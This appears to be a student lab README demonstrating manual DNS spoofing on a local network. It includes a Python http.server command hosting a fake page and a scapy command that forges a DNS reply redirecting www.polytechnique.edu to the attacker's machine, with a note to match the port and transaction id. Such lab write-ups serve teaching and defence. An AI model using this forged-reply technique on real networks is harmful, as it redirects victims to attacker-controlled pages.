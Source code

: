 # DNS Spoofing

## Manual spoofing

### On the victim's computer

We simulate a slow DNS by setting the DNS's IP address to `4.4.4.4` :

![Slow DNS](img/slow_dns.png)


And type `ifconfig` to get the victim's IP address :

![ifconfig victim](img/ifconfig_victim.png)

### On the attacker's computer

We can run a fake website on the attacker's localhost (`10.0.4.54`) with a HTML page saying "This is not facebook" :
```
cd dns_spoofing
python3 -m http.server 80
```

We run scapy and prepare the command to launch a fake DNS reply :
```
>>> p = Ether(dst='90:fd:61:ef:23:a4')/IP(src='4.4.4.4',dst='10.0.4.86')/UDP(sport=53,dport=55205)/DNS(id=0x54a6,qr=1,rd=1,ra=1,qd=DNSQR(qname='www.polytechnique.edu.'),an=DNSRR(rrname='www.polytechnique.edu.',ttl=42,rdata='10.0.4.54'))
>>> sendp(p, iface='en0')
```

### Attack !

The victim tries to connect to `http://www.polytechnique.edu`. The latter sends query to the DNS `4.4.4.4` and waits for an answer. From the attacker computer, we send the fake DNS answer. Make sure to modify the destination port and the transaction id. 

Here is how the packet exchanges look like : 

![Packet Exchange](img/dns_spoofing_wireshark.png)

Once the victim receives the fake reply from the attacker, a fake page is successfully loaded on the screen of the victim :

![Hacked](img/hacked.png)